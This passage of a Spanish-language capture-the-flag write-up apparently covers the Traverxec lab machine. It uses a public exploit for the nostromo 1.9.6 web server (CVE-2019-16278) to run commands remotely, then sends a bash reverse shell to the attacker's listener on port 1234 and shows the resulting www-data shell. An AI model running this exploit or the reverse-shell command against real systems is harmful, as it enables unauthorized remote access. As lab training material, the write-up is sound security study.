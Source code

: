 ```python

	# Si ocurre un error de índice, como no especificar la IP, imprime el menú de ayuda
    except IndexError: 
        print(help_menu)
```

Comenta la línea 10:
```shell
❯ sed '10q;d' 47837.py
#cve2019_16278.py
```

> `NUMq` saldrá inmediatamente cuando el número de línea sea NUM.
> `d` eliminará la línea en lugar de imprimirla; esto se inhibe en la última línea porque la q hace que se omita el resto del script al salir.

Podemos ejecutar con éxito un comando y recibir el resultado:
```shell
❯ python 47837.py 10.10.10.165 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Sun, 17 Oct 2021 22:25:17 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Enviamos una reverse shell:
```shell
python 47837.py 10.10.10.165 80 '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/1234 0>&1"'
```

Recibimos la reverse shell con nc en el puerto 1234:
```shell
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.165] 54928
bash: cannot set terminal process group (441): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$ whoami
whoami
www-data
www-data@traverxec:/usr/bin$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 00:50:56:b9:a7:98 brd ff:ff:ff:ff:ff:ff
```